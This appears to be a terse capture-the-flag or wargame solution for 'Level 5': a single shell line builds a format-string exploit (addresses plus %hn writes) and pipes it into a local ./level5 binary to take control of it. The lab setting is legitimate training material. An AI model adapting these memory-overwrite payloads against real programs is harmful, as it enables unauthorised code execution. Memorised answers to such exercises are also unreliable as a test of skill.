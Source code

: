 # Level 5

python -c 'print("\x3A\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn")' > /tmp/test ;cat /tmp/test - | ./level5
